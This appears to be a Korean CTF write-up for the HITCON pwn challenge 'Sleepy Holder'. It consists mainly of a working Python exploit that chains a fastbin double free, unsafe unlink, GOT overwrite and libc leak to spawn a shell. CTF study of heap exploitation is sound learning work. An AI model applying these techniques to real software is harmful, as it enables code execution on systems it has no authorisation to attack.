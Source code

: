Sleepy Holder - 300 (pwn)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE  |
|---------------|--------------|------------|--------|----------|------------|-------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | slepy |

64 bit binary이다. malloc consolidate를 이용해서 fastbin을 smallbin에 할당시키게 하는거 까지는 알고있었는데 이걸 free시켜서 문제를 풀도록 유도하다는 문제였다. 히트콘 문제수준은 정말 엄청난거같다.
깨달은 점이 있다면 smallbin chunk, 자유롭게 edit가능, bss에 heap chunk주소 존재 == unsafe unlink!! 라는걸 바로 유추할 수 있도록 해야겠다.


### 2. Exploit
exploit에 세부 설명을 다 넣었다.
```python
from ntpwn import *

s = process('./slepy')
e = ELF('./slepy')
l = ELF("/lib/x86_64-linux-gnu/libc.so.6")
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()

def keep(size,secret):
	s.sendlineafter('3. Renew secret\n','1')
	s.sendlineafter('Big secret\n', size)
	s.sendafter('l me your secret:',secret)

def wipe(size):
	s.sendlineafter('3. Renew secret\n','2')
	s.sendlineafter('Big secret\n', size)

def renew(size,secret):
	s.sendlineafter('3. Renew secret\n','3')
	s.sendlineafter('Big secret\n', size)
	s.sendafter('l me your secret:',secret)


pause()
keep('1', "A" * 40) # fastbin size
keep('2', "A" * 40) # to avoid merging with top chunk
wipe('1') # small secret -> fastbin
keep('3', "A" * 40) # unsortedbin -> smallbin

# huge secret -> Allocated.
# big secret -> Allocated.
# small secret -> free

wipe('1') # double free ( -> fastbin )

bss = 0x6020d0
fake_chunk = p64(0) + p64(0x20) + p64(bss - 0x18) + p64(bss - 0x10) + p64(0x20)
keep('1', fake_chunk)

wipe('2') # unsafe unlink attack
keep('2', "A" * 40) # small secret buf -> 0x~~

debug()
renew('1',p64(0) + p64(e.got['free']))
renew('2',p64(e.plt['puts']))
renew('1',p64(0) + p64(e.got['puts']))
wipe('2')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']
oneshot = libc_base + 0x45216
log.info("LIBC BASE : " + hex(libc_base))

keep('2', "A" * 40) # small secret buf -> 0x~~
renew('1',p64(0) + p64(e.got['puts']))
renew('2',p64(oneshot))

s.interactive()
```
